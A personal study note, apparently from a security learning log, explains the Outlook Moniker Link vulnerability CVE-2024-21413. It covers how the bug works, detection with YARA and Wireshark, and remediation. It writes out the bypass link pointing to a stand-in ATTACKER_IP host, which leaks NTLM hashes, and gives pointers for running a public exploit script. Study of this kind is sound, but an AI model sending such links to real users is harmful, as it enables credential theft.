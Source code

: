 # Day 27 10th august 2025

# Moniker Link (CVE-2024-21413)

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. 

An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked.

Impact- Remote Code Execution & Credential Leak
Severity-	Critical
Attack Complexity-	Low

Objective:
How the vulnerability works
Understand Outlook's "Protected View"
Using the vulnerability to leak credentials from an Outlook client
Detection and mitigation measures


## what is this MonikerLink

Outlook can render emails as HTML.
Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS.

Normally, Outlook will prompt a security warning when external applications are triggered.  

This pop-up is a result of Outlook's "Protected View". 
Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation). 

By using the **`file://`** Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share `(<a href="file://ATTACKER_IP/test">Click me</a>).` 
The SMB (Server Message Block ) protocol is used, which involves using local credentials for authentication. 
However, Outlook's "Protected View" catches and blocks this attempt.

The vulnerability here exists by modifying our hyperlink to include the **!** special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. 
For example: <a href="file://ATTACKER_IP/test!exploit">Click me</a>.

We, as attackers, can provide a Moniker Link of this nature for the attack. 

Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

## Exploitation

For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. 
The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim’s client will attempt to load a file from our attacking machine, resulting in the victim’s netNTLMv2 hash being captured.

// create a youtube video // 

## Detection

[clickme](https://github.com/CMNatic/CVE-2024-21413/blob/main/exploit.py)
Change attacker machine to the sender device ip.
Also change mailserver to reciever's ip.
use *python3* while running the script.
### YARA

A [Yara](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar) rule has been created by Florian Roth to detect emails containing the file:\\ element in the Moniker Link.

### wireshark

Additionally, the SMB request from the victim to the client can be seen in a packet capture with a truncated netNTLMv2 hash.

### Remediation

Microsoft has included patches to resolve this vulnerability in February’s “patch Tuesday” release.

Additionally, in the meantime, it is a timely reminder to practice general - safe - cyber security practices. For example, reminding users to:

Do not click random links (especially from unsolicited emails)
Preview links before clicking them
Forward suspicious emails to the respective department responsible for cyber security


Since this vulnerability bypasses Outlook's Protected View, there is no way to reconfigure Outlook to prevent this attack. 
Additionally, preventing the SMB protocol entirely may do more harm than good, especially as it is essential for accessing network shares. 
However, you may be able to block this at the **firewall level**, depending on the organisation.

Outlook is an extremely popular email client. 
The CVE is known to affect a large portion of the Office suite, and given its extremely low attack complexity, it's quite a spicy one.